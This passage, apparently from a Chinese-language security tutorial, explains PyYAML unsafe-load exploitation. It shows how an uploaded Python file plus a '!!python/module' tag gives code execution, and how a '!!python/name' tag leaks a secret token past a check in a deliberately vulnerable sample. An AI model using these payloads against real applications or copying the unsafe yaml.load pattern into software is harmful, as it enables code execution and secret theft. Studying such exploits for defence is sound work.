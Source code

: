搭配任意写文件来实现RCE

在实际的场景中，由于一般用于存放上传文件的目录和执行目录并不是同一个，例如：

```python
app.py
uploads
  |_ user.png
  |_ header.jpg
```

这个时候只需要上传一个 .py 文件，这个文件会被放在 uploads 下，这时只需要触发 `import uploads.header` 就可以利用了：

```python
yaml.load('!!python/module:uploads.header')
```

更简单的，直接上传 `__init__.py`，在触发的时候用 `!!python/module:uploads` 就可以了。

```python
yaml.load('!!python/module:uploads')
```

#### python/name

与 `python/module` 的逻辑极其类似，区别在于，`python/module` 仅仅返回模块而 `python/name` 返回的是模块下面的属性/方法。

利用的逻辑除了上面一样之外，还可以用于这种场景：

```python
import yaml


TOKEN = "Y0u_Nev3r_kn0w."

def check(config):
    try:
        token = yaml.load(config).get("token", None)
    except Exception:
        token = None

    if token == TOKEN:
        print("yes, master.")
    else:
        print("fuck off!")


config = ''  # 可控输入点
check(config)
```

这个时候的 payload 为 `token: !!python/name:__main__.TOKEN`，无需知道 TOKEN 是什么，但是需要知道变量名。

当然，这个场景除了 `!!python/module` 无法完成利用之外，上述其他姿势都可以实现。

### 版本 >= 5.1

由于默认的构造器太过强大，开发人员不了解这些危险很容易中招。所以 PyYAML 的开发者就将构造器分为：
